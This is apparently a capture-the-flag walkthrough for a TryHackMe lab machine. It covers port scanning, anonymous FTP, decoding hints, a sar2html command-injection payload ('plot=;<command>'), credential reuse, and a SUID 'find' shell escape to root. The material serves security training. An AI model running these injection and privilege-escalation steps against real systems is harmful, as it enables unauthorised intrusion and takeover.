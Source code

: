 https://tryhackme.com/r/room/boilerctf2
# IP
```IP
10.10.114.248
```
# NMAP
```bash
nmap -p- -T4 nmap_ports 10.10.114.248 -v
21/tcp    open     ftp
80/tcp    open     http
1248/tcp  filtered hermes
8657/tcp  filtered unknown
9007/tcp  filtered ogs-client
10000,10180,11525,12207,12370,12475,18591,18667,19492,28035,39301,44960,46645,55007,57961,59449,60395,64788


nmap -sV -sC -p21,80,1248,657,9007,10000,10180,11525,12207,12370,12475,18591,18667,19492,28035,39301,44960,46645,55007,57961,59449,60395,64788 -oN nmap_services 10.10.114.248 -v
21/tcp    open   ftp        vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.97.245
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open   http       Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Ubuntu Default Page: It works
657/tcp   closed rmc
1248/tcp  closed hermes
9007/tcp  closed ogs-client
10000/tcp open   http       MiniServ 1.930 (Webmin httpd)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: A1DD58E2564E83F72259D859658123E9
10180/tcp closed unknown
11525/tcp closed unknown
12207/tcp closed unknown
12370/tcp closed unknown
12475/tcp closed unknown
18591/tcp closed unknown
18667/tcp closed unknown
19492/tcp closed unknown
28035/tcp closed unknown
39301/tcp closed unknown
44960/tcp closed unknown
46645/tcp closed unknown
55007/tcp open   ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
57961/tcp closed unknown
59449/tcp closed unknown
60395/tcp closed unknown
64788/tcp closed unknown

```
# FTP
allows **anon** login, and there is a hidden file
```bash
ftp 10.10.114.248
Connected to 10.10.114.248.
220 (vsFTPd 3.0.3)
Name (10.10.114.248:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||42938|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||47649|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
229 Entering Extended Passive Mode (|||47745|)
150 Opening BINARY mode data connection for .info.txt (74 bytes).
100% |*************************************************************************************************************************|    74      163.86 KiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (0.69 KiB/s)

cat .info.txt 
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```
https://www.dcode.fr/vigenere-cipher will crack it with key `N`
and it says `Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`
`webmin` is also up to date
# Web
let's check `http://10.10.114.248/robots.txt`
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
last one give `OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK` from ascii.
and from base64 `99b0660cd95adea327c54182baa51584` it is a hash and from https://crackstation.net/ you will get that it is `kidding`.

```bash
dirb http://10.10.114.248/  
```
gives us `/joomla` CMS

`http://10.10.114.248/joomla//administrator/manifests/files/joomla.xml` says that the version is `3.9.12`.

```bash
dirb http://10.10.114.248/joomla/ 
```
it will give `/_test` directory

# File Upload
`/_test` has `sar2html` which is vulnerable to RCE. `/index.php?plot=;<command>`, then click select host. 
https://www.exploit-db.com/exploits/47204

`/index.php?plot=;cat log.txt` will give us:
`Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$`

# User flag
`basterd:superduperp@$$`
ssh to port 55007
```bash
$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi

```

switch user to `stoner:superduperp@$$no1knows`
```bash
stoner@Vulnerable:~$ cat .secret
You made it till here, well done.
```

# PrivEsc
```
stoner@Vulnerable:~$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```
but there is no such thing

```bash
find / -perm -4000 2>/dev/null
# find

find . -exec /bin/sh -p \; -quit
```

and flag
```bash
cat /root/root.txt
It wasn't that hard, was it?
```